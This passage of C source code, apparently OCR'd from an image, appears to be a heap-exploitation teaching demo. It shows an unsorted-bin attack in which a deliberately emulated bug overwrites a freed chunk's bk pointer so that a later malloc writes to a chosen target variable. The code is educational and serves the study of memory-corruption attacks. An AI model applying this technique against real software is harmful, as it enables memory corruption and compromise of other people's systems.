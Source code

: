 ```c

                  "consolidating the top chunk with"

                  "the first one during the free()\n\n");

  malloc(500);



  free(p);

  fprintf(stderr, "We free the first chunk now and it will be inserted in the "

                  "unsorted bin with its bk pointer "

                  "point to %p\n",

          (void *)p[1]);



  /*------------VULNERABILITY-----------*/



  p[1] = (unsigned long)(&target_var - 2);

  fprintf(stderr, "Now emulating a vulnerability that can overwrite the "

                  "victim->bk pointer\n");

  fprintf(stderr, "And we write it with the target address-16 (in 32-bits "

                  "machine, it should be target address-8):%p\n\n",

          (void *)p[1]);



  //------------------------------------



  malloc(400);

  fprintf(stderr, "Let's malloc again to get the chunk we just free. During "

                  "this time, target should has already been "

                  "rewrite:\n");

  fprintf(stderr, "%p: %p\n", &target_var, (void *)target_var);

}

```
